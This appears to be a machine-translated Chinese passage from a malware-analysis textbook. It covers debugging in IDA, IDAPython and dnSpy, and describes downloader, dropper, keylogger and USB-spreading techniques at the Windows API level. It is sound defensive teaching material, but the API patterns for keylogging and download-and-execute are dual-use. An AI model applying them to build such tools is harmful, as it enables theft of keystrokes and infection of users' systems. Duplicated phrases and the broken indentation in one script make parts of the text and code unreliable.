在IDA调试器中启动程序后，进程将暂停，下面的调试器显示将呈现给你。



当进程处于调试器控制之下时，反汇编工具栏被调试器工具栏取代。这个工具条由与调试功能有关的按钮组成（如进程控制和断点）。

* 反汇编窗口。这个窗口与指令指针寄存器（eip 或 rip）的当前值同步。反汇编窗口提供的功能与你在前一章学到的相同。你也可以通过按空格键在图形视图和文本视图模式之间切换。
* 寄存器窗口。这个窗口显示CPU的通用寄存器的当前内容。你可以右击一个寄存器的值，然后点击修改值、归零值、切换值、增量或减量值。如果你想改变CPU标志位的状态，切换一个值特别有用。如果寄存器的值是一个有效的内存位置，寄存器值旁边的直角箭头将被激活；点击这个箭头将把视图重新定位到相应的内存位置。如果你发现你已经导航到了一个不同的位置，并且想去指令指针所指向的位置，那么只要点击指令指针寄存器值（eip或rip）旁边的直角箭头即可。
* 堆栈视图。堆栈视图显示进程的运行时堆栈的数据内容。在调用一个函数之前检查堆栈可以得到关于函数参数的数量和函数参数的类型的信息。
* Hex视图。这显示的是内存的标准十六进制转储。如果你想显示一个有效的内存位置的内容（包含在寄存器、堆栈或指令中），十六进制视图很有用。
* 模块视图。它显示加载到进程内存中的模块（可执行文件及其共享库）的列表。双击列表中的任何模块会显示该模块导出的符号列表。这是一个简单的方法来导航到加载的库中的功能。
* 线程视图。显示当前进程中的线程列表。你可以在这个窗口上点击右键来暂停一个线程或恢复一个暂停的线程。
* 段落窗口。段落窗口可以通过查看|打开子视图|段落（或Shift + F7）来实现。当你在调试一个程序时，片段窗口提供了关于进程中分配的内存片段的信息。这个窗口显示了可执行文件及其部分在内存中的加载位置的信息。它还包含所有加载的DLLs的细节，以及它们的段信息。双击任何一个条目，都会带你到反汇编窗口或十六进制窗口中的相应内存位置。你可以控制内存地址的内容在哪里显示（在反汇编或十六进制窗口）；要做到这一点，只需将光标放在反汇编或十六进制窗口的任何地方，然后双击该条目。根据光标的位置，内存地址的内容将显示在适当的窗口中。



* 进口和出口窗口。当进程处于调试器控制下时，默认不显示进口和出口窗口。你可以通过视图|打开子视图来调出这些窗口。进口窗口列出了二进制文件导入的所有函数，而出口窗口则列出了所有导出的函数。导出的函数通常在DLLs中找到，所以当你调试恶意的DLLs时，这个窗口可能特别有用。

上一章介绍的其他IDA窗口，也可以通过视图| 打开子视图。

#### 3.4 使用IDA控制流程的执行

在第1.2节 "控制进程的执行 "中，我们研究了调试器提供的不同的执行控制 的不同执行控制功能。下表列出了你在调试程序时可以在IDA中使用的常见的执行 下表概述了在IDA中调试程序时可以使用的常见执行控制功能。


| 功能           | 快捷键 | Menu                      |
| -------------- | ------ | ------------------------- |
| Continue (Run) | F9     | Debugger \| Continue process        |
| Step into步进  | F7     | Debugger \| Step into     |
| Step over步过  | F8     | Debugger \| Step over     |
| Run to cursor  | F4     | Debugger \| Run to cursor |

#### 3.5 在IDA中设置断点

要在IDA中设置一个软件断点，你可以导航到你想要的位置 程序暂停的位置，然后按F2键（或右击并选择添加断点）。在 你设置了断点后，设置断点的地址会以红色突出显示。 颜色。你可以在包含断点的行上按F2键来删除断点。 

在下面的截图中，断点被设置在地址0x00401013（调用 sub_401000）。要在断点地址暂停执行，首先，选择调试器 (如本地Win32调试器)，如前所述，然后通过以下方式运行程序 选择调试器|启动程序（或F9热键）。这将执行所有的 这将在到达断点前执行所有指令，并在断点地址处暂停。


在IDA中，你可以通过编辑已经设置的断点来设置硬件和条件断点。要设置一个硬件断点，请右击现有的断点，选择编辑断点。在弹出的对话框中，选中硬件复选框，如下图所示。IDA允许你设置四个以上的硬件断点，但只有其中的四个能起作用，其他的硬件断点将被忽略。



你可以使用硬件断点来指定是执行时断点（默认）、写时断点还是读/写时断点。写时断点和读/写时断点选项允许你在任何指令访问指定的内存位置时创建内存断点。如果你想知道你的程序何时从一个内存位置访问一个数据（读/写），这个断点就很有用。执行时断点选项允许你在指定内存位置被执行时设置断点。除了指定模式外，你还必须指定一个大小。一个硬件断点的大小与它的地址相结合，形成一个可以触发断点的字节范围。

你可以通过在条件栏中指定条件来设置一个条件断点。该条件可以是一个实际的条件，或者是IDC或IDAPython表达式。你可以点击条件字段旁边的...按钮，这将打开编辑器，在这里你可以使用IDC或IDAPython脚本语言来评估该条件。您可以在https://www.hex-rays.com/products/ida/ support/idadoc/1488.shtml找到一些设置条件断点的例子。

你可以通过导航到Debugger | Breakpoints | Breakpoint List（或键入Ctrl + Alt + B）来查看所有的活动断点。你可以右键单击断点条目，禁用或删除断点。

#### 3.6 调试恶意软件的可执行文件

在本节中，我们将看看如何使用IDA来调试一个恶意软件的二进制文件。考虑一下32位恶意软件样本的反汇编列表。恶意软件调用CreateFileW API来创建一个文件，但是，只看反汇编列表，并不清楚恶意软件创建了什么文件。从MSDN的CreateFile文档中，你可以知道CreateFile的第一个参数将包含文件名；同时，CreateFile的后缀W指定文件名是UNICODE字符串（关于API的细节在前一章已经介绍过了）。为了确定文件名，我们可以在调用CreateFileW➊的地址处设置一个断点，然后运行程序（F9）直到它到达断点。当它到达断点时（在调用CreateFileW之前），函数的所有参数将被推入堆栈，因此我们可以检查堆栈中的第一个参数，以确定文件的名称。调用CreateFileW后，文件的句柄将在eax寄存器中返回，并被复制到位于➋的esi寄存器中。

```
.text:00401047 push 0 ; hTemplateFile
.text:00401049 push 80h ; dwFlagsAndAttributes
.text:0040104E push 2 ; dwCreationDisposition
.text:00401050 push 0 ; lpSecurityAttributes
.text:00401052 push 0 ; dwShareMode
.text:00401054 push 40000000h ; dwDesiredAccess
.text:00401059 lea edx, [esp+800h+Buffer]
.text:00401060 push edx ; lpFileName
.text:00401061 ➊ call ds:CreateFileW
.text:00401067 mov esi, eax ➋
```

在下面的截图中，在调用CreateFileW时，执行被暂停了（由于设置了断点并运行了该程序）。该函数的第一个参数是UNICODE字符串（文件名）的地址（0x003F538）。你可以使用IDA的Hex-View窗口来检查任何有效内存位置的内容。通过右击地址0x003F538并选择Follow in hex dump选项，倾倒第一个参数的内容，在Hex-View窗口中显示文件名，如下所示。在这种情况下，恶意软件正在C:\Users\test\AppData\Local\Temp目录下创建一个文件，SHAMple.dat。



恶意软件在创建文件后，将文件句柄作为第一个参数传递给WriteFile函数。这表明，恶意软件向SHAmple.dat文件写入了一些内容。为了确定它向文件写入了什么内容，你可以检查WriteFile函数的第二个参数。在这种情况下，它正在将字符串FunFunFun写入文件，如下面的截图中所示。如果恶意软件正在向文件写入可执行内容，你也将能够使用这种方法看到它。



#### 3.7 使用IDA调试一个恶意的DLL

在第3章，动态分析中，你学到了执行DLL的技术来进行动态分析。在本节中，你将使用你在第3章动态分析中所学到的一些概念来使用IDA调试一个DLL。如果你不熟悉DLL的动态分析，强烈建议你在进一步阅读第3章动态分析中的第6节，动态链接库（DLL）分析。

要使用IDA调试器调试DLL，你首先需要指定用于加载DLL的可执行文件（如rundll32.exe）。要调试一个DLL，首先，将DLL加载到IDA，它可能会显示DLLMain函数的反汇编。在DLLMain函数的第一条指令处设置一个断点（F2），如下面的屏幕截图所示。这确保了当你运行DLL时，执行将在DLLMain函数的第一条指令处暂停。你也可以通过从IDA的Exports窗口导航到DLL导出的任何函数上设置断点。



在您在所需的地址（您希望执行暂停的地方）设置断点后，通过调试器|选择调试器|本地Win32调试器（或调试器|选择调试器|本地Windows调试器）选择调试器并点击确定。接下来，选择调试器 | 进程选项，会出现下面截图中的对话框。在应用程序领域，输入用于加载DLL的可执行文件的完整路径（rundll32.exe）。在输入文件字段中，输入你希望调试的DLL的完整路径，在参数字段中，输入要传递给rundll32.exe的命令行参数，然后点击确定。现在，你可以运行该程序以达到断点，之后你可以像调试其他程序一样调试它。你传递给rundll32.exe的参数应该有正确的语法，以便成功地调试DLL（参考第三章动态分析中rundll32.exe的工作部分）。需要注意的一点是，rundll32.exe也可以用来执行64位DLL，方式相同。



##### 3.7.1 调试一个特定进程中的DLL

在第三章，动态分析中，你了解到一些DLL如何进行进程检查，以确定它们是否在一个特定的进程下运行，如explorer.exe或iexplore.exe。在这种情况下，你可能想在一个特定的主机进程内调试一个DLL，而不是rundll32.exe。要在DLL的入口点暂停执行，你可以启动一个新的主机进程实例，或者使用调试器附加到所需的主机进程，然后选择调试器|调试器选项，勾选库加载/卸载时暂停的选项。这个选项将告诉调试器，每当加载或卸载一个新模块时就暂停。完成这些设置后，你可以恢复暂停的主机进程，并通过按F9热键让它运行。现在你可以用像RemoteDLL这样的工具将DLL注入到被调试的主机进程中。当DLL被主机进程加载时，调试器将暂停，让你有机会在加载模块的地址上设置断点。你可以通过查看Segments窗口来了解DLL加载到内存的位置，如图所示。



在前面的截图中，你可以看到注入的DLL（rasaut.dll）已经在地址0x10000000（基础地址）处加载到内存中。你可以通过将基址（0x10000000）与PE头中AddressOfEntryPoint字段的值相加，在进入点的地址处设置一个断点。你可以通过将DLL加载到pestudio或CFFexplorer等工具中来确定入口点的地址值。例如，如果AddressOfEntryPoint的值是0x1BFB，那么可以通过将基础地址（0x10000000）与0x1BFB的值相加来确定DLL的入口点，结果是0x10001BFB。现在你可以导航到地址0x10001BFB（或者通过按G键跳转到该地址）并在该地址设置一个断点，然后恢复暂停的进程。

#### 3.8 使用IDA追踪执行情况

追踪允许你在一个进程执行时记录（日志）特定的事件。它可以 提供关于二进制文件的详细执行信息。IDA支持三种类型的 追踪：指令追踪、函数追踪和基本块追踪。要在IDA中启用追踪功能。 你需要设置一个断点，然后右击断点地址，选择编辑 断点，这时会出现一个断点设置对话框。在该对话框中，勾选 启用跟踪选项，并选择适当的跟踪类型。然后，选择调试器 通过调试器|选择调试器菜单（如前所述），并运行（F9）该 程序。下面的截图中的位置字段指定了正在编辑的断点。 被编辑的断点，它将被用作执行跟踪的起始地址。追踪将持续到 追踪将继续进行，直到它到达一个断点，或到达程序的终点。为了表明 哪些指令被追踪，IDA用彩色编码突出显示这些指令。在 追踪后，你可以通过选择调试器|追踪|追踪窗口来查看追踪的结果。 窗口。你可以通过Debugger | Tracing | Tracing options来控制跟踪选项。



指令跟踪记录每条指令的执行，并显示修改的寄存器值。指令跟踪的速度较慢，因为调试器在内部对程序进行单步操作，以监测和记录所有的寄存器值。指令跟踪对于确定程序的执行流程是非常有用的，可以了解每条指令的执行过程中哪些寄存器被修改。你可以通过添加断点来控制跟踪。

考虑一下下面截图中的程序。让我们假设你想追踪 前四条指令（在第三条指令中还包括一个函数调用）。要做到这一点 首先，在第一条指令设置一个断点，在第五条指令设置另一个断点。 第五条指令，如下面的截图所示。然后，编辑第一个断点（位于 地址0x00401010）并启用指令跟踪。现在，当你开始调试时，调试器会追踪前四条指令。 调试器会跟踪前四条指令（包括函数内部的指令） 并在第五条指令时暂停。如果您没有指定第二个断点，它将跟踪 所有的指令。



 下面的截图显示了跟踪窗口中的指令跟踪事件，当时调试器在第五条指令处暂停。注意执行过程是如何从main流向sub_E41000，然后又回到main的。如果你想跟踪其余的指令，你可以通过恢复暂停的进程来实现。



函数跟踪。这记录了所有的函数调用和返回，对于函数追踪事件不记录寄存器的值。函数跟踪对于确定哪些函数和子函数被程序调用很有用。你可以通过将跟踪类型设置为函数，并按照指令跟踪的相同程序来执行函数跟踪。

在下面的例子中，恶意软件样本调用了两个函数。假设我们想快速了解第一个函数调用了哪些其他函数。为此，我们可以在第一条指令处设置第一个断点，并启用函数跟踪（通过编辑断点），然后我们可以在第二条指令处设置另一个断点。第二个断点将作为停止点（追踪将被执行，直到达到第二个断点）。下面的屏幕截图显示了这两个断点。



在下面的例子中，恶意软件样本调用了两个函数。 假设我们想快速了解第一个函数调用了哪些其他函数。



有时，你的跟踪可能需要很长的时间，而且似乎永远不会结束；如果函数没有返回给它的调用者，而是在一个循环中运行，等待一个事件的发生，就会发生这种情况。在这种情况下，你仍然能够在跟踪窗口中看到跟踪记录。   

* 块追踪。IDA允许你进行块追踪，这对于了解在运行期间执行了哪些代码块很有用。你可以通过将追踪类型设置为基本块来启用块追踪。
* 在块追踪的情况下，调试器在每个函数的每个基本块的最后一条指令处设置断点，它还在被追踪块中间的任何调用指令处设置断点。基本块跟踪比正常执行要慢，但比指令或函数跟踪要快。

#### 3.9 使用IDAPython的调试器脚本

你可以使用调试器脚本来自动完成与恶意软件分析有关的常规任务。在上一章中，我们看了使用IDAPython进行静态代码分析的例子。在本节中，你将学习如何使用IDAPython来执行调试相关任务。本节演示的IDAPython脚本使用了新的IDAPython API，这意味着，如果你使用旧版本的IDA（低于IDA 7.0），这些脚本将无法工作。

下面的资源应该可以帮助你开始使用IDAPython调试器的脚本。这些资源中的大部分（除了IDAPython文档）都是使用旧的IDAPython API来演示脚本功能的，但它们应该足以让你明白这个道理。任何时候你遇到困难，你都可以参考IDAPython文档。

* IDAPython API文档：https://www.hex-rays.com/products/ida/ support/idapython_docs/idc-module.html 
* Magic Lantern Wiki: http://magiclantern.wikia.com/wiki/IDAPython 
* IDA脚本调试器：https://www.hex-rays.com/products/ida/debugger/scriptable.shtml 
* 使用IDAPython使你的生活更轻松（系列）：https://researchcenter.paloaltonetworks.com/2015/12/using-idapython-to-make-your-life-easierpart-1/

本节将让你感受到如何使用IDAPython进行调试相关的工作。首先，在IDA中加载可执行文件，并选择调试器（通过调试器|选择调试器）。为了测试下面的脚本命令，选择了本地Windows调试器。可执行文件加载完毕后，你可以在IDA的Python shell中执行下面提到的Python代码片段，或者选择文件|脚本命令（Shift + F2），并选择脚本语言为Python（从下拉菜单）。如果你希望以独立脚本的形式运行，你可能需要导入相应的模块（例如，导入idc）。

下面的代码片段在当前光标位置设置一个断点，启动调试器，等待暂停调试器事件发生，然后打印出与断点地址相关的地址和反汇编文本。


```
idc.add_bpt(idc.get_screen_ea())
idc.start_process('', '', '')
evt_code = idc.wait_for_next_event(WFNE_SUSP, -1)
if (evt_code > 0) and (evt_code !=idc.PROCESS_EXITED):
	evt_ea = idc.get_event_ea()
	print "Breakpoint Triggered at:",
hex(evt_ea),idc.generate_disasm_line(evt_ea, 0)
```

以下是执行前述脚本后产生的输出结果命令。

```
Breakpoint Triggered at: 0x1171010 push ebp
```

下面的代码片断步入下一条指令，并打印出地址和反汇编文本。以同样的方式，你可以使用idc.step_over()来步入指令。

```
idc.step_into()
evt_code = idc.wait_for_next_event(WFNE_SUSP, -1)
if (evt_code > 0) and (evt_code !=idc.PROCESS_EXITED):
	evt_ea = idc.get_event_ea()
	print "Stepped Into:", hex(evt_ea),idc.generate_disasm_line(evt_ea, 0)
```

执行前面的脚本命令的结果显示在这里。

```
Stepped Into: 0x1171011 mov ebp,esp
```

要获得一个寄存器的值，你可以使用 idc.get_reg_value() 。下面的例子 获取esp寄存器的值并在输出窗口中打印出来。

```
Python>esp_value = idc.get_reg_value("esp")
Python>print hex(esp_value)
0x1bf950
```

要获得地址为0x14fb04的dword值，请使用以下代码。以 同样，你可以使用idc.read_dbg_byte(ea), idc.read_dbg_word(ea), 和idc.read_dbg_qword(ea)来获取特定地址的字节、字和qword值。 地址的字节、字和q字值。

```
Python>ea = 0x14fb04
print hex(idc.read_dbg_dword(ea))
0x14fb54
```

要获得地址为0x01373000的ASCII字符串，使用以下方法。默认情况下，idc.get_strlit_contents()函数会得到指定地址的ASCII字符串。

```
Python>ea = 0x01373000
Python>print idc.get_strlit_contents(ea)
This is a simple program
```

为了获得UNICODE字符串，你可以使用idc.get_strlit_contents()函数，将其strtype参数设置为常量值idc.STRTYPE_C_16，如下所示。你可以在idc.idc文件中找到定义的常量值，该文件位于你的IDA安装目录中。

```
Python>ea = 0x00C37860
Python>print idc.get_strlit_contents(ea, strtype=idc.STRTYPE_C_16)
SHAMple.dat
```

下面的代码列出了所有加载的模块（可执行文件和DLLs）以及它们的基础地址。

```
import idautils
for m in idautils.Modules():
   print "0x%08x %s" % (m.base, m.name)
```

执行前面的脚本命令的结果显示在这里。

```
0x00400000 C:\malware\5340.exe
0x735c0000 C:\Windows\SYSTEM32\wow64cpu.dll
0x735d0000 C:\Windows\SYSTEM32\wow64win.dll
0x73630000 C:\Windows\SYSTEM32\wow64.dll
0x749e0000 C:\Windows\syswow64\cryptbase.dll
[REMOVED]
```

要获得kernel32.dll中CreateFileA函数的地址，使用以下代码。

```
Python>ea = idc.get_name_ea_simple("kernel32_CreateFileA")
Python>print hex(ea)
0x768a53c6
```

要恢复一个暂停的进程，你可以使用以下代码。

```
Python>idc.resume_process()
```

##### 3.9.1 确定恶意软件所访问的文件的例子

在上一章，在讨论IDAPython时，我们写了一个IDAPython脚本来确定CreateFileA函数的所有交叉引用（CreateFileA被调用的地址）。在本节中，让我们加强该脚本，以执行调试任务，并确定由恶意软件创建（或打开）的文件的名称。

下面的脚本在程序中调用CreateFileA的所有地址上设置一个断点，并运行恶意软件。在运行以下脚本之前，选择适当的调试器（调试器|选择调试器|本地Windows调试器）。当这个脚本被执行时，它在每个断点（换句话说，在调用CreateFileA之前）暂停，并打印出第一个参数（lpFileName）、第二个参数（dwDesiredAccess）和第五个参数（dwCreationDisposition）。这些参数将给我们提供文件的名称，一个代表对文件进行操作的常量值（如读/写），以及另一个常量值，表示将进行的操作（如创建或打开）。当触发断点时，第一个参数可以在[esp]处访问，第二个参数在[esp+0x4]处，第五个参数在[esp+0x10]处。除了打印一些参数外，脚本还通过在步入CreateFile函数后检索EAX寄存器的值来确定文件的句柄（返回值）。

```
import idc
import idautils
import idaapi
ea = idc.get_name_ea_simple("CreateFileA")
if ea == idaapi.BADADDR:
	print "Unable to locate CreateFileA"
else:
  for ref in idautils.CodeRefsTo(ea, 1):
  idc.add_bpt(ref)
idc.start_process('', '', '')
while True:
  event_code = idc.wait_for_next_event(idc.WFNE_SUSP, -1)
  if event_code < 1 or event_code == idc.PROCESS_EXITED:
  	break
  evt_ea = idc.get_event_ea()
  print "0x%x %s" % (evt_ea, idc.generate_disasm_line(evt_ea,0))
  esp_value = idc.get_reg_value("ESP")
  dword = idc.read_dbg_dword(esp_value)
  print "\tFilename:", idc.get_strlit_contents(dword)
  print "\tDesiredAccess: 0x%x" % idc.read_dbg_dword(esp_value + 4)
 	print "\tCreationDisposition:",hex(idc.read_dbg_dword(esp_value+0x10))
 	idc.step_over()
 	evt_code =idc.wait_for_next_event(idc.WFNE_SUSP, -1)
	if evt_code == idc.BREAKPOINT:
 		print "\tHandle(return value): 0x%x" %idc.get_reg_value("EAX")
	idc.resume_process()
```

下面是执行前述脚本的结果。DesiredAccess值，0x40000000和0x80000000，分别代表GENERIC_WRITE和GENERIC_READ操作。createDisposition值，0x2和0x3，分别表示CREATE_ALWAYS（总是创建一个新文件）和OPEN_EXISTING（打开一个文件，只有当它存在时）。正如你所看到的，通过使用调试器脚本，可以快速确定恶意软件创建/访问的文件名。

```
0x4013fb call ds:CreateFileA
 Filename: ka4a8213.log
 DesiredAccess: 0x40000000
 CreationDisposition: 0x2
 Handle(return value): 0x50
0x401161 call ds:CreateFileA
 Filename: ka4a8213.log
 DesiredAccess: 0x80000000
 CreationDisposition: 0x3
 Handle(return value): 0x50
0x4011aa call ds:CreateFileA
 Filename: C:\Users\test\AppData\Roaming\Microsoft\winlogdate.exe
 DesiredAccess: 0x40000000
 CreationDisposition: 0x2
 Handle(return value): 0x54
----------------[Removed]------------------------
```

### 4. 调试一个.NET应用程序

在进行恶意软件分析时，你将不得不处理分析各种各样的代码。你可能会遇到使用微软Visual C/C++、Delphi和.NET框架创建的恶意软件。在本节中，我们将简要介绍一个名为dnSpy（https:// github.com/0xd4d/dnSpy）的工具，它使分析.NET二进制文件更加容易。当涉及到反编译和调试.NET应用程序时，它是相当有效的。要加载一个.NET应用程序，你可以将应用程序拖放到dnSpy中，或者启动dnSpy并选择文件|打开，给它二进制文件的路径。一旦加载了.NET应用程序，dnSpy就会对该程序进行反编译，你可以在左侧的窗口（名为Assembly explorer）中访问该程序的方法和类。下面的截图显示了反编译后的.NET恶意二进制文件（名为SQLite.exe）的主要功能。



一旦二进制文件被反编译，你可以阅读代码（静态代码分析），以确定恶意软件的功能，或调试代码并执行动态代码分析。要调试恶意软件，你可以点击工具栏上的 "开始 "按钮，或选择 "调试"|"调试汇编"（F5）；这将弹出如图所示的对话框。



使用Break at下拉选项，您可以指定调试器启动时的中断位置。一旦您对这些选项满意，您可以点击确定，这将在调试器的控制下启动进程，并在入口处暂停调试器。现在，您可以通过Debug菜单访问各种调试器选项（如Step Over, Step into, Continue等），如下图所示。你也可以通过双击某一行来设置断点，或者选择Debug | Toggle Breakpoint（F9）。当你调试时，你可以利用本地窗口来检查一些本地变量或内存位置。



为了了解.NET二进制分析，以及对前面提到的二进制文件（名为SQLite.exe）的详细分析，你可以阅读作者的博文：https://cysinfo.com/cyber-attack-targetingcbi-and-possibly-indian-army-officials/。


### 摘要

本章所涉及的调试技术是了解恶意二进制文件内部运作的有效方法。恶意二进制文件的内部工作原理。代码分析工具所提供的调试功能 诸如IDA、x64dbg和dnSpy等代码分析工具所提供的调试功能可以大大增强你的逆向工程进程。工程过程。在恶意软件分析过程中，你通常会结合反汇编 和调试技术来确定恶意软件的功能，并从恶意二进制文件中获得有价值的 从恶意二进制文件中获得有价值的信息。

在下一章中，我们将使用迄今为止学到的技能来了解各种恶意软件的特点和功能。

## 7. 恶意软件的功能和持久化

恶意软件可以进行各种操作，它可以包括各种功能。了解一个恶意软件所做的事情和它所表现出来的行为，对于理解恶意二进制文件的性质和目的至关重要。在过去的几章中，你学到了进行恶意软件分析所需的技能和工具。在本章和接下来的几章中，我们将主要侧重于了解不同的恶意软件行为、它们的特点和能力。

### 1. 恶意软件的功能

现在，你应该对恶意软件如何利用API函数与系统互动有了了解。在本节中，您将了解恶意软件如何利用各种API函数来实现某些功能。关于在哪里可以找到关于特定API的帮助以及如何阅读API文档的信息，请参阅第5章 "使用IDA进行反汇编 "中的第3节 "反汇编Windows API"。

#### 1.1 下载器

在恶意软件分析中，你会遇到的最简单的恶意软件类型是下载器。下载器是一个从互联网下载另一个恶意软件组件并在系统上执行的程序。它通过调用UrlDownloadToFile()API，将文件下载到磁盘上。一旦下载，它就会使用ShellExecute()、WinExec()或CreateProcess()API调用来执行下载的组件。通常情况下，你会发现下载器被用作攻击壳代码的一部分。

下面的截图显示了一个32位的恶意软件下载器使用UrlDownloadToFileA()和ShellExecuteA()来下载和执行一个恶意软件二进制。为了确定正在下载恶意软件二进制文件的URL，在调用UrlDownloadToFileA()时设置了一个断点。运行代码后，断点被触发，如以下截图所示。UrlDownloadToFileA()的第二个参数显示将下载恶意软件可执行文件（wowreg32.exe）的URL，第三个参数指定下载的可执行文件在磁盘上的位置。在这种情况下，下载器将下载的可执行文件保存在%TEMP%目录下，称为temp.exe。



将恶意软件的可执行文件下载到%TEMP%目录后，下载者通过调用ShellExecuteA()API来执行它，如下面的截图所示。另外，恶意软件也可以使用WinExec()或CreateProcess()API来执行下载的文件。



在调试恶意二进制文件时，最好是运行监控工具 (如Wireshark）和模拟工具（如InetSim），这样你就可以 观察恶意软件的行动并捕获其产生的流量。

#### 1.2 释放器

Dropper是一个将额外的恶意软件组件嵌入自身的程序。当执行时，下载器会提取恶意软件组件并将其下载到磁盘。下拉程序 通常在资源部分嵌入额外的二进制文件。为了提取嵌入的 为了提取嵌入的可执行文件，投放器使用FindResource(), LoadResource(), LockResource()和 SizeOfResource()的API调用。在下面的截图中，Resource Hacker工具（在第2章静态分析中涉及到 第2章，静态分析）显示了一个PE文件在恶意软件样本的资源部分的存在。 恶意软件样本的资源部分存在一个PE文件。在这种情况下，资源类型是一个DLL。



在x64dbg中加载恶意二进制文件并查看对API调用的引用（在前一章中涉及），显示对资源相关API调用的引用。这是恶意软件从资源部分提取内容的一个迹象。在这一点上，你可以在调用FindResourceA()API的地址上设置一个断点，如图所示。



在下面的截图中，运行程序后，由于上一步设置的断点，执行在FindResourceA()API处暂停。传递给FindResourceA()API的第二和第三个参数告诉你，该恶意软件正试图找到DLL/101资源，如下所示。



在执行FindResourceA()后，其返回值（存储在EAX中），即指定资源信息块的句柄，被作为第二个参数传递给LoadResource()API。LoadResource()检索与该资源相关的数据的句柄。LoadResource()的返回值包含检索到的句柄，然后作为参数传递给LockResource()API，后者获得实际资源的指针。在下面的截图中，调用LockResource()后，执行立即暂停。检查转储窗口中的返回值（存储在EAX中），显示了从资源部分检索到的PE可执行内容。




一旦它检索到资源，恶意软件使用SizeofResource()API确定资源（PE文件）的大小。接下来，恶意软件使用CreateFileA在磁盘上投放了一个DLL，如下所示。



然后使用 WriteFile() API 将提取的 PE 内容写入 DLL。在下面的截图中，第一个参数0x5c是DLL的句柄，第二个参数0x00404060是检索到的资源（PE文件）的地址，第三个参数0x1c00是资源的大小，这是用调用SizeOfResource()确定的。



##### 1.2.1 逆向64位dropper释放器

下面是一个64位恶意软件投放器（称为黑客之门）的例子。如果你还不熟悉调试64位样本，请参考前一章的2.7节，调试64位恶意软件。该恶意软件使用相同的API函数集来寻找和提取资源；不同的是，前几个参数被放置在寄存器中，而不是推到堆栈中（因为它是一个64位二进制文件）。恶意软件首先使用FindResourceW()API找到BIN/100资源，如下所示。



然后，恶意软件使用LoadResource()检索与资源相关的数据的句柄，然后它使用LockResource()获得实际资源的指针。在下面的截图中，检查LockResource()API的返回值（RAX）显示了提取的资源。在这种情况下，64位恶意软件投放者从其资源部分提取DLL，随后它将DLL投放到磁盘上。



#### 1.3 键盘记录器

键盘记录器是一种旨在拦截和记录键盘点击的程序。攻击者在其恶意程序中使用键盘记录功能来窃取通过键盘输入的机密信息（如用户名、密码、信用卡信息等）。在本节中，我们将主要关注用户模式的软件键盘记录器。攻击者可以使用各种技术记录击键。最常见的记录击键的方法是使用记录的Windows API函数。(a) 检查键的状态（使用
(a) 检查钥匙状态（使用GetAsyncKeyState() API）和(b) 安装钩子（使用SetWindowHookEX() API）。

##### 1.3.1 使用GetAsyncKeyState()的键盘记录器

这种技术涉及查询键盘上每个键的状态。为了做到这一点，键盘记录器利用GetAsyncKeyState()API函数来确定按键是否被按下。从GetAsyncKeyState()的返回值，可以确定在调用该函数时，该键是向上还是向下，以及该键是否在之前调用GetAsyncKeyState()后被按下。下面是GetAsyncKeyState()API的函数原型。

   ```
   SHORT GetAsyncKeyState(int vKey)。
   ```


GetAsynKeyState()接受一个整数参数vKey，指定256个可能的虚拟键代码之一。为了确定键盘上单个按键的状态。GetAsyncKeyState() API可以通过传递与所需键相关的虚拟键代码作为参数来调用。为了确定键盘上所有按键的状态，一个键盘记录器在一个循环中不断轮询GetAsyncKeyState()API（通过传递每个虚拟按键代码作为参数），以确定哪个按键被按下。

> 你可以在MSDN网站（https://msdn.microsoft.com/en-us/ library/windows/desktop/dd375731(v=vs.85).aspx）上找到与虚拟键代码相关的符号常量名称。


下面的截图显示了一个键盘记录器的代码片段。该键盘记录器通过调用地址为0x401441的GetKeyState()API来确定Shift键的状态（如果它是向上或向下）。在地址0x401459，键盘记录器调用GetAsyncKeyState()，这是一个循环的一部分，在循环的每个迭代中，虚拟键代码（从键代码数组中读取）被作为参数传递，以确定每个键的状态。在地址0x401463处，一个测试操作（与AND操作相同）被执行。
在地址0x401463，对GetAsyncKeyState()的返回值进行测试操作（与AND操作相同），以确定最重要的位是否被设置。如果最重要的位被设置了，这就表明按键被按下了。如果一个特定的键被按下，那么键盘记录器就会调用地址为0x40146c的GetKeyState()来检查Caps Lock键的状态（以检查它是否被打开）。使用这种技术，恶意软件可以确定在键盘上输入的是大写字母、小写字母、数字还是特殊字符。



下面的截图显示了该循环的结束。从代码中可以看出，该恶意软件在0x5c（92）键代码中进行迭代。在这种情况下，var_4作为索引进入要检查的键代码数组，它在循环结束时被递增，只要var_4的值小于0x5c（92），循环就会继续。


##### 1.3.2 使用SetWindowsHookEx()的键盘记录器

另一种常见的键盘记录器技术是，它安装一个函数（称为钩子程序）来监测键盘事件（如按键）。在这种方法中，恶意程序注册了一个函数（钩子程序），当键盘事件被触发时，该函数将被通知，该函数可以将按键记录到一个文件或通过网络发送。恶意程序使用SetWindowsHookEx()API来指定要监控的事件类型（如键盘、鼠标等）以及当特定类型的事件发生时应该被通知的钩子程序。钩子程序可以包含在一个DLL或当前模块中。在下面的截图中，恶意软件样本通过调用SetWindowsHookEx()和WH_KEYBOARD_LL参数（恶意软件也可能使用WH_KEYBOARD）为低级别的键盘事件注册了一个钩子过程。第二个参数
第二个参数，offset hook_proc，是挂钩过程的地址。当键盘事件发生时，这个函数将被通知。检查这个函数可以了解到键盘记录器是如何和在哪里记录击键的。第三个参数是包含钩子程序的模块（如DLL或当前模块）的句柄。第四个参数，0，指定钩子程序将与同一桌面上的所有现有线程相关。



#### 1.4 通过可移动媒体复制恶意软件

攻击者可以通过感染可移动媒体（如USB驱动器）来传播其恶意程序。攻击者可以利用自动运行功能（或利用自动运行中的漏洞），在被感染的媒体被插入时自动感染其他系统。这种技术通常涉及复制文件或修改存储在可移动媒体上的现有文件。一旦恶意软件将恶意文件复制到可移动媒体上，它可以使用各种技巧使该文件看起来像一个合法文件，以欺骗用户在USB插入不同系统时执行该文件。感染可移动媒体的技术使攻击者能够在断开连接的网络或有空气阻隔的网络上传播他们的恶意软件。

在下面的例子中，恶意软件调用GetLogicalDriveStringsA()来获取计算机上有效驱动器的详细信息。调用GetLogicDriveStringsA()后，可用驱动器的列表被存储在输出缓冲区RootPathName中，该缓冲区被作为第二个参数传递给GetLogicalDriveStringsA()。下面的截图显示了调用GetLogicDriveStringsA()后的三个驱动器：C:\、D:\和E:\，其中E:\是USB驱动器。一旦它确定了驱动器的列表，它就会遍历每个驱动器以确定它是否是一个可移动的驱动器。它通过比较GetDriveTypeA()的返回值和DRIVE_REMOVABLE（常量值2）来确定。



